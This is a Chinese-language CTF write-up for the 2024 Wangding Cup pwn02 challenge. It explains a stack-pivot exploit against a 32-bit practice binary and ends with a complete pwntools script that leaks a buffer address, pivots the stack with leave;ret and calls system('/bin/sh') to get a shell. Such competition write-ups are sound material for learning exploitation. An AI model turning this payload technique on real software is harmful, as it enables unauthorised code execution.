

# 网鼎pwn

题目下载：[Release 附件下载 · CTF-Archives/2024-wdb-qinglong](https://github.com/CTF-Archives/2024-wdb-qinglong/releases/tag/v0.1)


## pwn02栈迁移

checksec 一下

```
helloctfos@Hello-CTF:~/pwnenv$ checksec short
[*] '/home/helloctfos/pwnenv/short'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


有个登录验证，直接输入就可以了

```c
_BOOL4 login()
{
  char s1[64]; // [esp+0h] [ebp-88h] BYREF
  char s[68]; // [esp+40h] [ebp-48h] BYREF

  printf("Enter your username: ");
  fgets(s, 64, stdin);
  s[strcspn(s, "\n")] = 0;
  printf("Enter your password: ");
  fgets(s1, 64, stdin);
  s1[strcspn(s1, "\n")] = 0;
  return !strcmp(s, "admin") && !strcmp(s1, "admin123");
}
```


exp一部分：

```
io.recvuntil("Enter your username:")
io.sendline(b'admin')
io.recvuntil("Enter your password:")
io.sendline(b'admin123')
```


然后看关键的：



read有个溢出点


程序`printf`把`buf`的地址给打出来了

```
io.recvuntil(b'0x')
buf = int(io.recv(8), 16)
```


有一个`gift`函数，里面有`system`

```
.text:080485FF                 call    _system
```

plt表中

```
.plt:080484A0 ; int system(const char *command)
```


但是不够位置，所以应该是先写上去，然后system函数执行buf里面的东西

然后我们把sh写入buf地址中

```
'/bin/sh\x00'
```


所以直接写exp

+16是因为/bin/sh是写在buf区域的地址+16，然后填充完0x50控制程序流，然后就是标准栈迁移，leave ret

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')
io = process("./short")

system_addr = 0x080484a0
leave_addr = 0x804860f

io.recvuntil("Enter your username:")
io.sendline(b'admin')
io.recvuntil("Enter your password:")
io.sendline(b'admin123')

io.recvuntil(b'0x')
buf_addr = int(io.recv(8), 16)

payload = flat([cyclic(4),system_addr,0,buf_addr+16,'/bin/sh\x00']).ljust(0x50)
payload += flat([buf_addr,leave_addr])

io.recvuntil("plz input your msg:\n")

io.sendline(payload)

io.interactive()
```


